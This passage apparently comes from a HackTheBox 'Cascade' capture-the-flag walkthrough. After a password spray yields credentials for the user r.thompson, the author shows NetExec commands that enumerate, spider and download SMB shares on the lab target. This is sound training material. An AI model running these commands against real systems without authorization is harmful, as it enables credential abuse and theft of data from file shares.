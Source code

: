 <figure><img src="../../.gitbook/assets/casc_pass_spray.png" alt=""><figcaption><p>Figure 6: Password spraying!</p></figcaption></figure>

We got a hit back! We have obtained valid credentials for the user `r.thompson` ! Sadly, this account does not have WinRM access and checking for any [Kerberoastable](../../tl-dr/active-directory/attacks/kerberoasting.md) domain accounts returns nothing. All we are left with is enumerating the SMB shares, and by doing it we get some interesting results back (Figure 7). &#x20;

{% code overflow="wrap" %}
```bash
# enumerating shares
nxc smb 10.10.10.182 -u r.thompson -p rthompson_pass --shares
# spidering the Data share
nxc smb 10.10.10.182 -u r.thompson -p rthompson_pass --spider Data --regex . --depth 0
```
{% endcode %}

<figure><img src="../../.gitbook/assets/casc_shares.png" alt=""><figcaption><p>Figure 7: Enumerating and spidering SMB shares.</p></figcaption></figure>

There seems to be a directory structure based on the company's departments; let's download and inspect the `Data` share on our attack host (Figure 8 & 9).

{% code overflow="wrap" %}
```bash
# downloading the Data share
nxc smb 10.10.10.182 -u r.thompson -p rthompson_pass -M spider_plus -o DOWNLOAD_FLAG=True OUTPUT_FOLDER=SMB EXCLUDE_FILTER=NETLOGON,SYSVOL,IPC\$,print\$
# expanding the Data directory
tree SMB
```
{% endcode %}
